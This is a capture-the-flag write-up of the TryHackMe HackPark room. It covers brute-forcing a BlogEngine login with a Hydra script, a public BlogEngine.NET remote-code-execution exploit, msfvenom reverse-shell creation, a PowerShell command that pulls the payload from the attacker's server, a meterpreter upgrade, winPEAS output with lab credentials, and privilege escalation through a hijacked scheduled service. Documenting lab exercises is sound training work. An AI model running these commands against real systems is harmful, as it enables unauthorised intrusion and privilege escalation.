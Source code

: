 ```yaml
---
layout: md
title: TryHackMe HackPark room
description: 
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

Includes:
  - Windows
  - Hydra 
    - brute forcing credentials
  - Web application exploits
    - File inclusion
    - Directory traversal
  - WinPEAS
  - Metasploit
    - Stabilizing shells
  - Privilege Escalation

We can browse to the server via the internet to find a blog called `BlogEngine`. From here we can find a login page & can use hydra to try and exploit this.

#### Hydra

Try to login using random credentials & capture the body of the post request and note and changes on the page that would indicate a failed login.

Using this information we can create a quick bash script to run a bruteforce hydra attack against the web form - using the post body as `$form` and replacing the username and password with `^USER^` & `^PASS^` for hydra to replace these with the values we give it to run through. And use 'Login failed' as our failure condition.

```bash
#!/bin/bash

form="__VIEWSTATE=<redacted-for-clarity>&__EVENTVALIDATION=<redacted-for-clarity>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"

hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt \
10.10.186.90 http-post-form \
"/Account/login.aspx?ReturnURL=/admin/:$form:F=Login failed"
```

After about 30s we find the password and can now login.

#### Exploiting `BlogEngine`

Using `searchsploit` to find exploits:
```bash
$> searchsploit blogengine

BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
```

Mirror the exploit file:
```
$> searchsploit -m aspx/webapps/46353.cs
```

This file has a detailed overview at the top with how to go about using the exploit to gain remote access. The key details are:
- File must be uploaded as PostView.ascx
- Change the address and port in the script to the lhost and lport
- Upload via '/admin/app/editor/editpost.cshtml'
- Navigate to '/?theme=../../App_Data/files' to run the file

Running the file will give a reverse shell to our listener.

#### Enumerating

The shell we have is quite unstable so I want to stabilize it by creating a meterpreter shell via metasploit.

Craft our reverse shell using `msfvenom`:
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Using our reverse shell we can grab the file from our server (using `python3 -m http.server`):
```powershell
cmd> powershell.exe -c "wget 'http://<ip>:8000/msfvenom_reverse_shell.exe' -OutFile 'C:\Users\Public\msfvenom_reverse_shell.exe'"
```

Create a listener on metasploit:
```bash
msf6> use exploit/multi/handler 
msf6> set payload windows/x64/shell/reverse_tcp
msf6> set lhost <ip>
msf6> set lport <port>
msf6> exploit
```

And the we can run our reverse shell:
```cmd
cmd> C:\Users\Public\msfvenom_reverse_shell.exe
```
& background the session `ctrl+z`

Upgrading to meterpreter:
```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> sessions -l
msf6> set session <reverse-shell-session-id>
msf6> set lhost 10.9.7.128
msf6> set lport 4433
msf6> exploit
msf6> session -i <meterpreter-session-id>

meterpreter>
```
* I did notice the meterpreter/PS shell is still slightly unstable and likes to die from time to time. Keeping the original session around as a backup was handy.

Uploading and running `winPEAS`:
```
meterpreter> upload winPEASx86.exe
meterpreter> load powershell
meterpreter> powershell_shell

PS> .\winPEASx86.exe > winpeas.txt
PS> exit
PS> meterpreter > download winpeas.txt
```

Read/search the results:
```bash
more winpeas.txt
cat winpeas.txt | grep -i "<search>"
```
`more` is nice for this as it will use the shell syntax highlighting/colours, making it easier to read. The file is often extremely long and hard to read using `cat` or similar.  

This highlights a possibly vulnerable service:
```
=================================================================================================

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
System Scheduler Service Wrapper
=================================================================================================
```

It also finds some AutoLogon credentials:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

#### Privilege escalation

The hackpark room wants us to exploit the service, so I will ignore the AutoLogon credentials.

Looking through the logs in `C:\Program Files (x86)\SystemScheduler` we can see its calling `Message.exe` as administrator. We can use our `msfvenom_reverse_shell.exe` we created earlier to gain a more stable reverse shell to replace `Message.exe`, and on the next scheduler cycle it will be run as an `Administrator`. 

Restart the listener we had earlier & wait for the next cycle (seems to be once every 1-2 minutes). This will give us a reverse shell as the `Administrator` account. From here we can gather the flags on both desktops and we've already ran `winPEAS` and gathered the other required information. 

